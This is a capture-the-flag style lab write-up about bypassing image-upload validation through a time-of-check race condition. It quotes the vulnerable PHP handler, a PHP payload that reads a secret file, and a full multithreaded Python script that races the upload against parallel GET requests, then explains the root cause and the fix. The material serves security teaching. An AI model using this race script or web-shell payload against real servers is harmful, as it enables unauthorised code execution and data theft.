

# File Upload

---

### Web shell upload via race condition - Expert

---

#### Description:

#### This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

#### To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

#### You can log in to your own account using the following credentials: wiener:peter

---

- After logging in using the credential, I see an upload avatar feature.
    
    
    
- First, I upload a valid file and check the page source. I can see where the file is stored, and the path is directly accessible at `/files/avatars/test.png`.
    
    
    
- Then, I upload a PHP file directly to see the way this application handles malicious files. As expected, the upload is blocked.
    
    
    
- But this lab also reveals a snippet of the vulnerable code responsible for handling the upload.
    
    ```php
    <?php
    $target_dir = "avatars/";
    $target_file = $target_dir . $_FILES["avatar"]["name"];
    
    // temporary move
    move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);
    
    if (checkViruses($target_file) && checkFileType($target_file)) {
        echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
    } else {
        unlink($target_file);
        echo "Sorry, there was an error uploading your file.";
        http_response_code(403);
    }
    
    function checkViruses($fileName) {
        // checking for viruses
        ...
    }
    
    function checkFileType($fileName) {
        $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
        if($imageFileType != "jpg" && $imageFileType != "png") {
            echo "Sorry, only JPG & PNG files are allowed\n";
            return false;
        } else {
            return true;
        }
    }
    ?>
    ```
    
- In short, when receiving a file, the code above temporarily store it in the server (accessible) BEFORE actually perform validating, and only remove it when it’s failed the check.
- This raises a question, what happens if I access it really fast before it gets deleted ?
- The vulnerable code shows that there’s a small time gap between receiving the file and deleting it, and the path where the file is store while validating is accessible so the idea is to try utilizing race condition to access the file while that gap is happening.
- By sending a POST request to upload the file containing the payload followed by a bunch of GET request to access it as fast as possible, if one of those GET requests lands before the file is deleted, the payload should execute.
- Doing it manually is not a good choice, so I’m gonna use Python to solve this (AI assisted):
    
    ```python
    import requests
    import threading
    import urllib3
    from concurrent.futures import ThreadPoolExecutor
    
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    
    BASE_URL = "https://[YOUR_LAB_ID].web-security-academy.net"
    SESSION_COOKIE = "dHJm0ldKREeNe9GJqXRLpbnXDvtW0WMd"  # CHANGE THIS
    CSRF_TOKEN = "GTXy6OOdjsLXnuo8eu2QPryhAl2PjylG"      # CHANGE THIS
    
    UPLOAD_URL = f"{BASE_URL}/my-account/avatar"
    SHELL_URL = f"{BASE_URL}/files/avatars/shell.php"
    
    GET_THREADS = 40        
    MAX_ROUNDS = 50         
    
    headers_upload = {
        "Cookie": f"session={SESSION_COOKIE}",
        "Origin": BASE_URL,
        "Referer": f"{BASE_URL}/my-account?id=wiener",
    }
    
    headers_get = {
        "Cookie": f"session={SESSION_COOKIE}",
    }
    
    found_event = threading.Event()
    found_content = None
    
    php_payload = b"<?php echo file_get_contents('/home/carlos/secret'); ?>"
    
    def do_upload():
        files = {
            "avatar": ("shell.php", php_payload, "application/x-php"),
        }
        data = {
            "user": "wiener",
            "csrf": CSRF_TOKEN,
        }
        try:
            requests.post(
                UPLOAD_URL,
                headers=headers_upload,
                files=files,
                data=data,
                verify=False,
                timeout=5,
            )
        except requests.RequestException as e:
            print(f"[!] Upload error: {e}")
    
    def try_get():
        global found_content
        if found_event.is_set():
            return
        try:
            r = requests.get(SHELL_URL, headers=headers_get, verify=False, timeout=3)
            if r.status_code == 200 and len(r.text.strip()) > 0 and "<html" not in r.text.lower():
                found_content = r.text
                found_event.set()
                print(f"\n[+] HIT! Content: {r.text}")
        except requests.RequestException:
            pass
    
    def race_round(round_num):
        print(f"[*] Round {round_num}: uploading + firing {GET_THREADS} GET requests...")
    
        upload_thread = threading.Thread(target=do_upload)
        upload_thread.start()
    
        with ThreadPoolExecutor(max_workers=GET_THREADS) as executor:
            futures = [executor.submit(try_get) for _ in range(GET_THREADS)]
            for f in futures:
                f.result()
    
        upload_thread.join()
    
    def main():
        for round_num in range(1, MAX_ROUNDS + 1):
            if found_event.is_set():
                break
            race_round(round_num)
    
        if found_content:
            print("\n" + "=" * 50)
            print("[+] SUCCESS")
            print(found_content)
            print("=" * 50)
        else:
            print("\n[-] Not found after all rounds. Try increasing GET_THREADS or MAX_ROUNDS.")
    
    if __name__ == "__main__":
        main()
    
    ```
    
- It only took me about 2 secs to grab the secret (but it may take more time or even fail, race condition is a game of luck yanno).
    
    
    
- Note:
- Because the file will be deleted almost immediately, uploading a webshell for real-time RCE is not a great approach. Unless you can upload the file somewhere that remains permanently accessible, using a single command to read the secret is enough for this lab.
- Root cause:
    - Classic TOCTOU (time-of-check to time-of-use) race condition — the upload handler calls move_uploaded_file() to place the file at its final, web-accessible path BEFORE checkViruses() and checkFileType() run. Validation happens strictly after the file is already live and servable, not before, so there exists a real (if narrow) window where an unvalidated file sits at a publicly reachable URL.
    - Fail-open persistence model — the only safety net is unlink($target_file) in the else branch, which deletes the file *after* a failed check. This means the file's presence on disk is the default state the moment it's uploaded; deletion is a corrective afterthought, not a precondition for public accessibility. Any request landing inside that window sees the file exactly as uploaded, PHP payload intact.
    - Deterministic, guessable file path — because $target_file is built directly from the user-supplied filename ($_FILES["avatar"]["name"]) with no random suffix or staging directory, an attacker knows the exact URL to poll (/files/avatars/shell.php) before even sending the upload request. This removes the need to discover the path, so the entire race reduces to a
    timing problem: fire the POST and enough parallel GETs that at least one lands inside the gap between move_uploaded_file() and unlink().
    - Amplified by network-level nondeterminism — the race window itself may be very small, but since the check functions (checkViruses, checkFileType) involve disk I/O and computation, real-world request scheduling and thread execution jitter make the window inconsistent in size from request to request. This is why a single GET attempt reliably misses it, but flooding dozens of concurrent GETs alongside the upload converts a
    low per-request probability into a near-certain hit within a few rounds.

Takeaway: validate-then-store, never store-then-validate. Any file handling flow where the "unsafe" state (fully written, path-accessible) precedes the "safe" decision (passed/failed checks) has an inherent race window — the fix isn't a faster check, it's flipping the order so nothing is ever written to a servable path until validation has already passed.
